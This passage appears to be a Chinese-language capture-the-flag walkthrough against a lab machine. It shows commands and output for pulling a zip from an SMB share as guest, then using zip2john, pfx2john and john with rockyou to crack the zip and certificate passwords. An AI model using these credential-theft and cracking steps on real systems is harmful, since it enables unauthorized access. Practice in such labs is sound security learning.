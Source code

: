 ```bash
root@145a5d706052 /t/b/workspace# cmder use -r 32
🦴 (custom) PWD [Password]:
[✓] Executing: smbmap -H 10.10.11.152 -u guest  --download 'Shares\Dev\winrm_backup.zip'
[+] Starting download: Shares\Dev\winrm_backup.zip (2611 bytes)
[+] File output to: /tmp/box_152/workspace/10.10.11.152-Shares_Dev_winrm_backup.zip
```

当解压的时候，提示需要密码：
```bash
root@145a5d706052 /t/b/workspace# unzip 10.10.11.152-Shares_Dev_winrm_backup.zip
Archive:  10.10.11.152-Shares_Dev_winrm_backup.zip
[10.10.11.152-Shares_Dev_winrm_backup.zip] legacyy_dev_auth.pfx password:
   skipping: legacyy_dev_auth.pfx    incorrect password
```

里面包含了`legacyy_dev_auth.pfx`敏感文件，是我们需要攻破的目标。

在查看了其他文件没有包含隐藏密码后，将思路转向密码破解。 这里用到了`cmder -p  db/pentesting/2_password_crack/offline_brute_force.xd`

利用`john`工具进行破解，首先需要将带破解文件转成hash值。

```bash
root@145a5d706052 /t/b/workspace# cmder use -r 2
🦴 (custom) file : 10.10.11.152-Shares_Dev_winrm_backup.zip
[✓] Executing: zip2john 10.10.11.152-Shares_Dev_winrm_backup.zip > 10.10.11.152-Shares_Dev_winrm_backup.zip.hash
ver 2.0 efh 5455 efh 7875 10.10.11.152-Shares_Dev_winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```

然后暴力破解

```bash
root@145a5d706052 /t/b/workspace# cmder use -r 5
[✓] Executing: john --wordlist=/usr/share/wordlists/rockyou.txt 10.10.11.152-Shares_Dev_winrm_backup.zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
supremelegacy    (10.10.11.152-Shares_Dev_winrm_backup.zip/legacyy_dev_auth.pfx)
1g 0:00:00:00 DONE (2022-04-20 02:40) 1.449g/s 5027Kp/s 5027Kc/s 5027KC/s suprgirl..supreme99
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

得到密码`supremelegacy`后进行解压，得到`legacyy_dev_auth.pfx`文件

```bash
root@145a5d706052 /t/b/workspace [80]# unzip 10.10.11.152-Shares_Dev_winrm_backup.zip
Archive:  10.10.11.152-Shares_Dev_winrm_backup.zip
[10.10.11.152-Shares_Dev_winrm_backup.zip] legacyy_dev_auth.pfx password:
  inflating: legacyy_dev_auth.pfx
```

pfx是微软支持的私钥格式，包含了公钥和私钥的二进制格式的证书形式。所以可以通过pfx生成私钥和公钥。但是在此之前需要破解证书的加密密码。

```bash
root@145a5d706052 /t/b/workspace# cmder use -r 3
🦴 (custom) file : legacyy_dev_auth.pfx
[✓] Executing: pfx2john.py legacyy_dev_auth.pfx > legacyy_dev_auth.pfx.hash
root@145a5d706052 /t/b/workspace# vim legacyy_dev_auth.pfx.hash
root@145a5d706052 /t/b/workspace# cmder use -r 5
🦴 (custom) hash_file: legacyy_dev_auth.pfx.hash
[✓] Executing: john --wordlist=/usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx.hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
thuglegacy       (legacyy_dev_auth.pfx)
```